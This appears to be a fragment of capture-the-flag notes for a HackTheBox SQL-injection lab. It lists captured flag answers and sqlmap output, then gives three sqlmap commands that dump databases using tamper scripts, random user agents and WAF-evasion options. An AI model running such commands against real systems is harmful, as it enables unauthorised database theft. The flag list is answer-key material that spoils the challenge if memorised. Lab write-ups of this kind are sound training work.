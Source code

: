 # Page 3

```
Case1 - HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} 

Case 2 - HTB{700_much_c0n6r475_0n_p057_r3qu357}

Case 3 - HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}

Case 4 - HTB{j450n_v00rh335_53nd5_6r475}

Case 5 - HTB{700_much_r15k_bu7_w0r7h_17}

Case 6 - HTB{v1nc3_mcm4h0n_15_4570n15h3d}

Case 7 -


GET parameter 'col' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
GET parameter 'col' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
--technique=BEUS
```

{% code overflow="wrap" %}
```
sqlmap -r case10.txt -p id -D testdb --dump-all --batch --level=2 --risk=3 --tamper=base64encode --random-agent --skip-waf
```
{% endcode %}

{% code overflow="wrap" %}
```
sqlmap -r case11.txt -p id -D testdb -T flag11 --dump-all --batch --level=2 --risk=3 --tamper=between --random-agent --skip-waf
```
{% endcode %}

{% code overflow="wrap" %}
```
sqlmap -r final01.txt -p id -D production -T final_flag --batch --level=2 --risk=3 --tamper=between --random-agent --skip-waf --dump 
```
{% endcode %}
